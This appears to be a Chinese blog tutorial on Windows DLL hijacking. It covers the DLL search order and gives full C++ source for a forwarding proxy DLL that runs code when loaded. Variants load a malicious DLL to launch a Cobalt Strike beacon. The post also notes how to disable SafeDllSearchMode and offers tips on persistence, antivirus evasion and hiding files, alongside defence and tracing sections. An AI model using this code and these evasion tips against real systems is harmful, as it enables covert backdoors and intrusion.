


## DLL

### 动态库与静态库

库是写好的，现有的，成熟的，可以复用的代码。现实中每个程序都要依赖很多基础的底层库，不可能每个人的代码都从零开始，因此库的存在意义非同寻常。

动态链接库(Dynamic-Link-Library，缩写dll), 是微软公司在微软视窗操作系统中实现共享函数库概念的一种实现方式。这些库函数的扩展名是```.DLL```、```.OCX```(包含ActiveX控制的库)或者```.DRV```(旧式的系统的驱动程序)。

Linux下静态库名字一般是:```libxxx.a``` window则是: ```*.lib、*.h```

Linux下动态库名字一般是:```libxxx.so``` window则是: ```.dll、.OCX```...

例如静态库占用1M内存，有2000个这样的程序，将占用近2GB的空间。另一个方面是如果静态库更新了，使用它的程序需要重新打包，全量更新。

**动态链接最直接的好处是磁盘和内存的消耗减少**，缺点就是容易造成版本冲突,比如不同的应用程序共享同一个dll，而它们需求的是不同的版本，这就会出现矛盾,解决办法是把不同版本的dll放在不同的文件夹中。

著名的 DLL HELL 问题：

有些程序只能在老的版本运行，而新的程序需要需要新版本的 DLL。而每个应用程序都安装一份自己的拷贝，就失去了 DLL 的优势。因为dll的文件没有一个很好的命名机制, 所以很容易发生重名
而以前微软鼓励把dll安装在```\system```目录下(为了节省空间), 这样会发生很严重的问题，
比方说你的sth.dll替换了我的sth.dll。现在微软已经开始建议安装dll到自己的程序目录下, 减少了撞车的可能性。


动态库的特点：

1）把一些库函数的链接载入推迟到程序运行的时期。

2）可以实现进程间资源共享。(动态库也被成为共享库)

3）易于升级

## DLL Hijacking Vulnerability

如果在进程尝试加载一个DLL时没有指定DLL的绝对路径，那么Windows会尝试去按照顺序搜索这些特定目录来查找这个DLL，如果攻击者能够将恶意的DLL放在优先于正常DLL所在的目录，那么就能够欺骗系统去加载恶意的DLL，形成”劫持”，CWE将其归类为UntrustedSearch Path Vulnerability,比较直译的一种解释。

在Windows XP SP2 之前(不包括), 默认未启用DLL搜索模式。

Windows查找DLL目录及其顺序如下:

	1.The directory from which the application loaded.
	2.The current directory.
	3.The system directory. Use the GetSystemDirectory function to get the path of this directory.
	4.The 16-bit system directory. There is no function that obtains the path of this directory, but it is searched.
	5.The Windows directory. Use the GetWindowsDirectory function to get the path of this directory.
	6.The directories that are listed in the PATH environment variable. Note that this does not include the per-application path specified by the App Paths registry key. The App Paths key is not used when computing the DLL search path.

后来为了减轻这个影响,默认情况下，从Windows XP Service Pack 2（SP2）开始启用安全DLL搜索模式。

	1.The directory from which the application loaded.
	2.The system directory. Use the GetSystemDirectory function to get the path of this directory.
	3.The 16-bit system directory. There is no function that obtains the path of this directory, but it is searched.
	4.The Windows directory. Use the GetWindowsDirectory function to get the path of this directory.
	5.The current directory.
	6.The directories that are listed in the PATH environment variable. Note that this does not include the per-application path specified by the App Paths registry key. The App Paths key is not used when computing the DLL search path.

可以看到当前目录被放置在了后面,对系统dll起到一定的保护作用。


**强制关闭SafeDllSearchMode的方法**:

创建注册表项:

	HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Session Manager\SafeDllSearchMode
	值为0

Windows7 之后, 微软为了更进一步的防御系统的DLL被劫持，将一些容易被劫持的系统DLL写进了一个注册表项中，那么凡是此项下的DLL文件就会被禁止从EXE自身所在的目录下调用，而只能从系统目录即SYSTEM32目录下调用。注册表路径如下：

	HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Session Manager\KnownDLLs

但是如果开发者滥用DLL目录，依然会导致DLL劫持问题。

**常用的手法为：持久化阶段，不影响功能，在程序运行目录下面，原始dll改一个名，用恶意的dll去调用它。**

## VS建立一个dll项目并调用它

环境：VS2019

新建**项目-dll工程**；我这里命名为 DllTest。


创建一个DllTest工程，修改pch.h和pch.cpp文件：

pch.h
	
	#ifndef PCH_H
	#define PCH_H
	
	// 添加要在此处预编译的标头
	#include "framework.h"
	
	#endif //PCH_H
	
	//定义宏
	#ifdef IMPORT_DLL
	#else
	#define IMPORT_DLL extern "C" _declspec(dllimport) //指的是允许将其给外部调用
	#endif
	
	IMPORT_DLL int add(int a, int b);
	IMPORT_DLL int minus(int a, int b);
	IMPORT_DLL int multiply(int a, int b);
	IMPORT_DLL double divide(int a, int b);

pch.cpp


	#include<iostream>
	#include "pch.h"
	using namespace std;
	
	int add(int a, int b)
	{
		return a + b;
	}
	
	int minus(int a, int b)
	{
		return a - b;
	}
	
	int multiply(int a, int b)
	{
		return a * b;
	}
	
	double divide(int a, int b)
	{
		double m = (double)a / b;
		return m;
	}

编译生成dll----DllTest.dll。

在解决方案下再建立一个**C++的空项目**，用来调用刚才生成的dll。设置此项目为主启动项目。


新建一个dllCall.cpp

	/*main*/
	#include<iostream>
	#include "windows.h"
	using namespace std;
	
	int main()
	{
		HINSTANCE hDllInst;
		hDllInst = LoadLibrary(L"DllTest.dll"); //调用DLL
		typedef int(*PLUSFUNC)(int a, int b); //后边为参数，前面为返回值
		PLUSFUNC plus_str = (PLUSFUNC)GetProcAddress(hDllInst, "add"); //GetProcAddress为获取该函数的地址
		std::cout << plus_str(1, 2);
		::MessageBox(NULL, TEXT("OLD"), TEXT("OLD"), MB_OK);
	}

编译后在VS DEBUG或RELEASE目录运行exe：


## DLL劫持攻击

[AheadLib-x86-x64](https://github.com/strivexjun/AheadLib-x86-x64)

[**yeyeshun大佬修改版**](https://bbs.pediy.com/thread-224408.htm) (使用时注意选择对应位数的版本)

### 转发式劫持


使用工具```PEview.exe```对PC端WX进行静态检测，观察其启动需要导入的dll。

在节点 ```SECTION.rdata---IMPORT Directory Table```下：


上面的几个dll是受系统保护的重要DLL，写到注册表里监控了，一般修改难度较大。

注册表查看哪些DLL受系统保护，且加载路径固定：

	HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\SessionManager\knowndlls

凡是此项下的DLL文件就会被禁止从EXE自身目录下调用，而只能从系统目录，也就是system32目录下调用。

我尝试改下面的dll，可以随便选一个```dbghelp.dll```。

可以使用VS自带工具查看dll版本：

	E:\software\VS2019enterprise\VS2019\VC\Tools\MSVC\14.28.29333\bin\Hostx64\x64>dumpbin.exe /headers C:\Users\Administrator\source\repos\DllTest\Debug\DllTest.dll


我这里使用[**yeyeshun大佬修改版**](https://bbs.pediy.com/thread-224408.htm)工具演示对上面DEMO的dll劫持，并且不影响源程序功能。


选择对应版本的AheadLib导入dll进行dll转发：


原始DLL这里很关键，是要将被劫持的dll重命名为```DllTestOrg.dll```。

新建一个dll项目，修改dllmain.cpp:

将上一步工具生成的CPP代码追加复制到dllmain.cpp里。

同时修改```dwReason == DLL_PROCESS_ATTACH```的代码，在dll加载时执行恶意代码：

我这里增加了弹窗和弹计算器：

	::MessageBox(NULL, TEXT("OK"), TEXT("OK"), MB_OK);
	STARTUPINFO si = { sizeof(si) };
	PROCESS_INFORMATION pi;
	CreateProcess(TEXT("C:\\WINDOWS\\System32\\calc.exe"), NULL, NULL, NULL, false, 0, NULL, NULL, &si, &pi);

dllmain.cpp 完整代码为：
	
	// dllmain.cpp : 定义 DLL 应用程序的入口点。
	#include "pch.h"
	
	
	
	
	////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////
	// 头文件
	#include <Windows.h>
	////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////
	
	
	
	////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////
	// 导出函数
	#pragma comment(linker, "/EXPORT:add=DllTestOrg.add,@1")
	#pragma comment(linker, "/EXPORT:divide=DllTestOrg.divide,@2")
	#pragma comment(linker, "/EXPORT:minus=DllTestOrg.minus,@3")
	#pragma comment(linker, "/EXPORT:multiply=DllTestOrg.multiply,@4")
	////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////
	
	
	
	
	
	////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////
	// 入口函数
	BOOL WINAPI DllMain(HMODULE hModule, DWORD dwReason, PVOID pvReserved)
	{
		if (dwReason == DLL_PROCESS_ATTACH)
		{
			DisableThreadLibraryCalls(hModule);
	
			::MessageBox(NULL, TEXT("OK"), TEXT("OK"), MB_OK);
			STARTUPINFO si = { sizeof(si) };
			PROCESS_INFORMATION pi;
			CreateProcess(TEXT("C:\\WINDOWS\\System32\\calc.exe"), NULL, NULL, NULL, false, 0, NULL, NULL, &si, &pi);
		}
		else if (dwReason == DLL_PROCESS_DETACH)
		{
		}
		return TRUE;
	}
	////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////


编译，将生成的dll重命名为被劫持的dll(DllTest.dll)，并放在被劫持的dll程序所在目录，将被劫持的dll重命名为```DllTestOrg.dll```用于给新生成的恶意dll调用。运行原exe，完成劫持：

先弹出OK:


再弹出计算器，并执行原程序调用的功能1+2=3 和弹出OLD。


ps: 当然这里除了加载exe，加载cs 生成的dll什么的也是可以的。(推荐用64位dll)
	
	if (dwReason == DLL_PROCESS_ATTACH)
		{
			DisableThreadLibraryCalls(hModule);
	
			::MessageBox(NULL, TEXT("OK"), TEXT("OK"), MB_OK);
			STARTUPINFO si = { sizeof(si) };
			PROCESS_INFORMATION pi;
			HINSTANCE hDllInst;
			hDllInst = LoadLibrary(L"system.dll"); //调用evil DLL
			CreateProcess(TEXT("C:\\WINDOWS\\System32\\calc.exe"), NULL, NULL, NULL, false, 0, NULL, NULL, &si, &pi);
		}

效果如下：


如果上面的方法上线出问题(假上线)，也可以使用执行cmd命令的方式，使用rundll32调用 dll。

	C:\\WINDOWS\\System32\\rundll32.exe 对应调用64位dll
	C:\\WINDOWS\\SysWoW64\\rundll32.exe 对应调用32位dll

cmd 执行 rundll32 默认调用64位的。

	WCHAR lpPath[] = L"C:\\WINDOWS\\System32\\rundll32.exe .\\system.dll Start";
	CreateProcess(NULL, lpPath, NULL, NULL, false, 0, NULL, NULL, &si, &pi);

效果如下：

cs上线；


### 篡改式劫持

这种方法属于比较暴力的一种,通过直接在DLL中插入跳转语句从而跳转到我们的shellcode位置。

会修改原dll文件，可能会破坏签名。但不会新增文件。

[the-backdoor-factory](https://github.com/secretsquirrel/the-backdoor-factory)

这个工具新版好像只给捐赠用户使用。

## DLL劫持挖掘

[anhkgg-tools --- 批量验证dll](https://github.com/anhkgg/anhkgg-tools)

[rattler](https://github.com/sensepost/rattler)  不是完全准确；

可以结合 procmon 手工验证。

## DLL劫持防御

1.调用第三方DLL时,使用绝对路径

2.调用API SetDllDirectory(L"")将当前目录从DLL加载顺序中移除

3.校验dll MD5

4.使用[procmon](https://docs.microsoft.com/zh-cn/sysinternals/downloads/procmon)类监控工具。

## reference

[C++静态库与动态库](https://www.cnblogs.com/skynet/p/3372855.html)

[microsoft--Dynamic-Link 库安全](https://docs.microsoft.com/zh-cn/windows/win32/dlls/dynamic-link-library-security?redirectedfrom=MSDN)

[VisualStudio2019 DLL生成并使用教程（C++）最详细Demo教程](https://wangyi.blog.csdn.net/article/details/89677441)

[证书签名伪造----SigThief](https://github.com/secretsquirrel/SigThief)

## 后记

通用dll劫持还不太懂。 https://github.com/anhkgg/SuperDllHijack

DLL劫持调用exe的优点：DLL没有恶意操作,所以大概率会免杀，但是木马文件也要做好免杀。

当然也可以在恶意dll中植入shellcode，但要做好dll免杀。

给文件加隐藏属性：

	attrib +h a.exe

查看此文件：

	dir /a

### 溯源

一般有c2通讯可能会有SYN连接，检查外联SYN连接及对应的进程id：

	$ netstat -bn|findstr "SYN_SENT"

因为考虑到可能是心跳包，所以执行了多次：



查看进程id对应的进程：



查找进程对应的原始命令：


在受害机器（win7）的“开始”搜索这个文件：


打开文件位置，定位到可疑文件。

将这个dll文件上传到沙箱，确认出现了dll劫持。